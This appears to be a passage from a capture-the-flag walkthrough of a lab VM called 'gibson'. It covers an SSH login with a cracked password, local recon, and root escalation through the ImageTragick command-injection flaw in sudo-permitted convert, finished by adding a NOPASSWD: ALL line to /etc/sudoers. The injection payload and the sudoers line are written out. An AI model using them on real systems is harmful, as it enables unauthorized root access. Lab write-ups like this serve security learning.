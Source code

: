>Processed Requests: 56183 (56180 + 3)
>Filtered Requests: 56178
>Requests/sec.: 321.8861
>```

Kinda strange how the directory one finds the file, but whatever. After this comes
back empty I try to ssh in as margo with password 'god'.

>```
>ssh margo@192.168.0.103
>Ubuntu 14.04.3 LTS
>margo@192.168.0.103's password:
>Welcome to Ubuntu 14.04.3 LTS (GNU/Linux 3.19.0-25-generic x86_64)
>margo@gibson:~$
>```

Having a shell allows us to do some recon. There are users margo, eugene and
duke. There is nothing in our own home directory but in eugene's we find:

>```
>-rwxrwxr-x 1 eugene eugene 8589 May  5 19:10 spin64
>```

As advertised, it spins. (It's useless)

Lets keep going:

>```
>margo@gibson:~$ sudo -l
>Matching Defaults entries for margo on gibson:
>    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
>
>User margo may run the following commands on gibson:
>    (ALL) NOPASSWD: /usr/bin/convert
>```

So this seems pretty obviously the ImageTragick exploit. Convert does not
properly escape commands and so it is vulnerable to cmd injection.

>```
>margo@gibson:/tmp$ sudo convert 'https://example.com";id"' out.png
>uid=0(root) gid=0(root) groups=0(root)
>```

To elevate to uid root I use this command injection to start vim as root:

>```
>margo@gibson:/tmp$ sudo convert 'https://example.com";vim"' out.png
>```

Add the following line to /etc/sudoers

>```
>margo ALL=(ALL) NOPASSWD: ALL
>```
